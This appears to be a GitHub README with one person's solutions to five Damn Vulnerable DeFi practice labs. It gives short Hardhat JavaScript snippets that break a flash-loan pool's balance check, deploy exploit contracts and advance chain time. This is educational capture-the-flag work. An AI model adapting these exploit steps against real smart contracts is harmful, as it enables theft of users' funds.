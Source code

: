 # DVD Solutions
## Introduction
This repository contains my solutions to [Damn Vulnerable Defi](https://www.damnvulnerabledefi.xyz) labs.  As javascript required for interaction with hardhat is just a couple lines of code, so it is provided in snippets below. 
## JS Snippets
### [Unstoppable](https://www.damnvulnerabledefi.xyz/challenges/1.html)
``` JavaScript
await this.token.connect(attacker).transfer(this.pool.address, 1);
// Now pool balance is different than saved in contract which fails defined requirement.
```
### [Naive receiver](https://www.damnvulnerabledefi.xyz/challenges/2.html)
``` JS
const ReceiverExploitFactory = await ethers.getContractFactory('ReceiverExploit', attacker);

await ReceiverExploitFactory.deploy(this.receiver.address, this.pool.address);
```
### [Truster](https://www.damnvulnerabledefi.xyz/challenges/3.html)
``` JS
const TrusterExploitFactory = await ethers.getContractFactory('TrusterExploit', attacker);

await TrusterExploitFactory.deploy(this.pool.address, this.token.address, ethers.utils.parseEther('1000000'));
```

### [Side entrance](https://www.damnvulnerabledefi.xyz/challenges/4.html)
``` JS
// Deploy and have fun!

const SideExploitFactory = await ethers.getContractFactory('SideExploit', attacker);

let sideExploit = await SideExploitFactory.deploy(this.pool.address, ethers.utils.parseEther('1000'));

await sideExploit.exploit();
```

### [The rewarder](https://www.damnvulnerabledefi.xyz/challenges/5.html)
```JS
// Deploy contract

const RewarderExploitFactory = await ethers.getContractFactory('RewarderExploit', attacker);

let RewarderExploit = await RewarderExploitFactory.deploy(this.rewarderPool.address,

this.flashLoanPool.address,

this.liquidityToken.address,

this.rewardToken.address);

// Wait 5 days

await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60 + 7]);
```